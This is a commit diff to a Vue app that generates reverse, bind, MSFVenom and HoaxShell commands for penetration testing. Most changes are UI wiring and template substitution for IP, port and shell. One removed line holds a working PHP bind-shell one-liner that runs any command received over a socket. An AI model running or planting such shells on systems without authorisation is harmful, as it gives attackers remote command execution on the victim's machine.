

Before and after one commit to Eviden0/Reverse-Shell-Generator-To-Vue, a Vue app: page / in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
更新了reverse的一部分

```diff
--- a/src/components/Nav/Card.vue
+++ b/src/components/Nav/Card.vue
@@ -17,11 +17,13 @@
         <div class="content">
             <div class="aside">
                 <ul class="scrollable-list">
-                    <li v-for="item in listData" :key="item.name">{{ item.name }}</li>
+                    <li v-for="item in listData" :key="item.name" :class="getItemClass(item.name)" @click="onListCilck(item.name)">
+                        {{ item.name }}
+                    </li>
                 </ul>
             </div>
             <div class="mainContent">
-                <Reverse />
+                <Reverse v-show="navStore.nav=='Reverse'" ref="reverse" />
             </div>
         </div>
     </el-card>
@@ -37,26 +39,28 @@ const navStore = useNavStore()
 const isDark = useDark()
 const name = ref('')
 const os = ref('All')
-
+const reverse = ref(null)
+const selectedItem = ref(null)
 
 function onOSchange() {
     updateList()
 }
+
 function onNameChange() {
     updateList()
 }
-const listData = ref(reverseShellCommands)// 默认为这个
+
+const listData = ref(reverseShellCommands) // 默认为这个
+
 function updateList() {
     let currentShellCommands = reverseShellCommands
     if (navStore.nav === 'Reverse') {
         currentShellCommands = reverseShellCommands
     } else if (navStore.nav === 'Bind') {
         currentShellCommands = bindShellCommands
-    }
-    else if (navStore.nav === 'MSFVenom') {
+    } else if (navStore.nav === 'MSFVenom') {
         currentShellCommands = msfvenomCommands
-    }
-    else if (navStore.nav === 'HoaxShell') {
+    } else if (navStore.nav === 'HoaxShell') {
         currentShellCommands = hoaxShellCommands
     }
     if (os.value === 'All') {
@@ -68,10 +72,25 @@ function updateList() {
         listData.value = listData.value.filter(item => item.name.toLowerCase().includes(name.value.toLowerCase()))
     }
 }
+
+function onListCilck(commandName) {
+    selectedItem.value = commandName
+    if (navStore.nav === 'Reverse') {
+        reverse.value.updateCommand(commandName)
+        // console.log(commandName)
+    }
+}
+
+function getItemClass(itemName) {
+    return {
+        selected: selectedItem.value === itemName,
+        'selected-dark': selectedItem.value === itemName && isDark.value
+    }
+}
+
 defineExpose({
     updateList, os
 })
-
 </script>
 
 <style lang="scss" scoped>
@@ -92,12 +111,12 @@ span,
 
     .aside {
         flex: 2;
-        display: flex;
-        flex-direction: column;
+        // display: flex;
+        // flex-direction: column;
     }
 
     .scrollable-list {
-        flex: 2;
+        // flex: 2;
         display: flex;
         flex-direction: column;
         padding: 0;
@@ -132,6 +151,14 @@ span,
         background-color: skyblue
     }
 
+    li.selected {
+        background-color: lightblue;
+    }
+
+    li.selected-dark {
+        background-color: #375A7F;
+    }
+
     .mainContent {
         flex: 7;
     }
--- a/src/components/Nav/Reverse.vue
+++ b/src/components/Nav/Reverse.vue
@@ -1,19 +1,32 @@
 <template>
     <div class="reverse">
-        <el-card class="mainContent" :style="{ backgroundColor: isDark ? '#303030' : '#ecefff' }" shadow="always" @click="focusEditable">
+        <el-card class="mainContent" :style="{ backgroundColor: isDark ? '#303030' : '#ecefff' }" shadow="always"
+            @click="focusEditable">
             <div class="content">
-                <span>🚀</span>
-                <span ref="editable" contenteditable class="editable">php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",1024);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'</span>
+                <span @click="updateCommand">🚀</span>
+                <span ref="editable" contenteditable class="editable"></span>
             </div>
         </el-card>
+        <div class="options">
+            <el-select v-model="shell" filterable placeholder="Select" style="width: 120px">
+                <el-option v-for="item in shellsOptions" :key="item.value" :label="item.label" :value="item.value"
+                    @click="updateCommand(currentShellCommand)" />
+            </el-select>
+            <el-select v-model="encoding" filterable placeholder="Select" style="width: 120px">
+                <el-option v-for="item in encodingsOptions" :key="item.value" :label="item.label" :value="item.value" />
+            </el-select>
+        </div>
     </div>
 </template>
 
 <script setup lang='js'>
-import { ref } from 'vue'
+import { ref, defineExpose } from 'vue'
 import { useDark } from '@vueuse/core'
+import { shells, encodings, reverseShellCommands } from '../../utils/myData'
+import { useDataStore } from '../../store/data';
+const dataStore = useDataStore()
 const isDark = useDark()
-
+const currentShellCommand = ref('sh')
 const editable = ref(null)
 
 function focusEditable() {
@@ -21,27 +34,74 @@ function focusEditable() {
         editable.value.focus()
     }
 }
+const shell = ref('powershell')
+const encoding = ref('None')
+const shellsOptions = shells.map(shell => ({
+    value: shell,
+    label: shell,
+}))
+const encodingsOptions = encodings.map(shell => ({
+    value: shell,
+    label: shell,
+}))
+function updateCommand(commandName) {
+    if (!commandName)
+        return
+    currentShellCommand.value = commandName
+    let command = reverseShellCommands.find(item => item.name === commandName).command
+    if (!command)
+        return
+    command = dataStore.rsg.highlightParameters(command)
+    command = command.replace('{port}', dataStore.rsg.getPort())
+    command = command.replace('{ip}', dataStore.rsg.getIP())
+    command = command.replace('{payload}', dataStore.rsg.getPayload())
+    command = command.replace('{type}', dataStore.rsg.getType())
+    command = command.replace('{shell}', shell.value)
+    editable.value.innerHTML = command
+    console.log(command)
+}
+defineExpose({
+    updateCommand
+})
 </script>
 
 <style lang="scss" scoped>
 .reverse {
+    display: flex;
+    flex-direction: column;
     padding: 10px 0 0 20px;
 
     .mainContent {
+        flex:8;
+
         /* 其他样式 */
-        cursor: text; /* 鼠标指针变为文本选择 */
+        cursor: text;
+        /* 鼠标指针变为文本选择 */
     }
 
     .content {
+        max-height: 350px;
+        overflow-y: auto;
         display: flex;
-        align-items: flex-start; /* 确保文本在顶部对齐 */
+        align-items: flex-start;
+        /* 确保文本在顶部对齐 */
     }
 
     .editable {
-        outline: none; /* 移除编辑时的边框 */
-        flex: 1; /* 使文本区域占据剩余空间 */
-        word-break: break-word; /* 确保长单词换行 */
-        white-space: pre-wrap; /* 保留空白符并换行 */
+        outline: none;
+        /* 移除编辑时的边框 */
+        flex: 1;
+        /* 使文本区域占据剩余空间 */
+        word-break: break-word;
+        /* 确保长单词换行 */
+        white-space: pre-wrap;
+        /* 保留空白符并换行 */
+    }
+    .options{
+        flex:2;
+        display: flex;
+        justify-content: space-between;
+        padding: 10px 0 0 0;
     }
 }
 </style>
--- a/src/components/Nav/index.vue
+++ b/src/components/Nav/index.vue
@@ -1,7 +1,7 @@
 <template>
     <div class="Nav">
         <el-segmented v-model="navStore.nav" :options="options" size="large" @change="onNavChange" />
-        <Card ref="card" />
+        <Card class=card ref="card" />
     </div>
 </template>
 
@@ -30,4 +30,8 @@ function onNavChange() {
     // width: 100%;
     padding: 0 52px;
 }
+.card{
+    // max-height: 480px;
+    // overflow-y: auto;
+}
 </style>
--- a/src/components/Setting.vue
+++ b/src/components/Setting.vue
@@ -35,7 +35,7 @@
                             <span ref="editableDiv" contenteditable class="editable"></span>
                         </div>
                     </el-card>
-                    <el-select v-model="advance" placeholder="Select" size="large"
+                    <el-select v-model="advance" filterable placeholder="Select" size="large"
                         style="width: 200px;margin-top: 10px;" v-if="isShowAD" @change="updateListenerCommand">
                         <el-option v-for="item in listenerCommands" :key="item.type" :label="item.type"
                             :value="item.type" />
@@ -62,7 +62,6 @@ const isShowAD = ref(true)
 const advance = ref('nc')
 const listenerCommands = ref(listenerCommandsData) // 正确引用导入的 JSON 数据
 const editableDiv = ref(null)
-const resetKey = ref(1)
 
 function imcrement() {
     dataStore.portImcrement()
@@ -164,6 +163,8 @@ onMounted(() => {
             flex-direction: column;
 
             .mainContent {
+                max-height: 160px;
+                overflow-y: auto;
                 /* 其他样式 */
                 cursor: text; /* 鼠标指针变为文本选择 */
 
--- a/src/store/nav.js
+++ b/src/store/nav.js
@@ -2,8 +2,12 @@ import { ref } from 'vue'
 import { defineStore } from "pinia";
 export const useNavStore = defineStore('Nav', () => {
     const nav = ref('Reverse')
+    const command = ref('')
     function setNav(value) {
         nav.value = value
     }
-    return { nav, setNav }
+    function setCommand(value) {
+        command.value = value
+    }
+    return { nav, setNav, command, setCommand }
 });
--- a/src/utils/myData.js
+++ b/src/utils/myData.js
@@ -577,3 +577,7 @@ export const hoaxShellCommands =
             "meta": ["windows"]
         }
     ]
+
+export const shells = ['sh', '/bin/sh', 'bash', '/bin/bash', 'cmd', 'powershell', 'pwsh', 'ash', 'bsh', 'csh', 'ksh', 'zsh', 'pdksh', 'tcsh', 'mksh', 'dash']
+
+export const encodings = ['None', 'URL Encode', 'Double URL Encoude', 'Base64']
```
